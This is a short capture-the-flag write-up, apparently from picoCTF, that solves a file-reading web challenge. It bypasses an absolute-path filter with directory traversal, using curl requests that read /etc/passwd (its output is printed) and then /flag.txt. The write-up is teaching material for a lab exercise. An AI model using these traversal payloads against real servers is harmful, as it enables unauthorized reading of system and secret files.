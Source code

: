 ## Description
Can you get the flag? Here's the website. We know that the website files live in /usr/share/nginx/html/ and the flag is at /flag.txt but the website is filtering absolute file paths. Can you get past the filter to read the flag?

## Solution

Seem to be vulnerable to LFI. checking:

```bash
curl -X POST "http://saturn.picoctf.net:55793/read.php" --data "filename=../../../../../etc/passwd"
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta http-equiv="X-UA-Compatible" content="ie=edge">
    <link rel="stylesheet" href="style.css">
    <title>Web eReader</title>
  </head>
  <body>
    
    root:x:0:0:root:/root:/bin/bash
<br>daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<br>bin:x:2:2:bin:/bin:/usr/sbin/nologin
<br>sys:x:3:3:sys:/dev:/usr/sbin/nologin
<br>sync:x:4:65534:sync:/bin:/bin/sync
<br>games:x:5:60:games:/usr/games:/usr/sbin/nologin
<br>man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
<br>lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
<br>mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
<br>news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
<br>uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
<br>proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
<br>www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
<br>backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
<br>list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
<br>irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
<br>gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
<br>nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
<br>_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
<br>nginx:x:101:101:nginx user,,,:/nonexistent:/bin/false
<br>systemd-timesync:x:102:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
<br>systemd-network:x:103:104:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
<br>systemd-resolve:x:104:105:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
<br><br>  </body>
</html>
```

Now let's try to find the flag.

```bash
curl -X POST "http://saturn.picoctf.net:55793/read.php" --data "filename=../../../../../../flag.txt"
```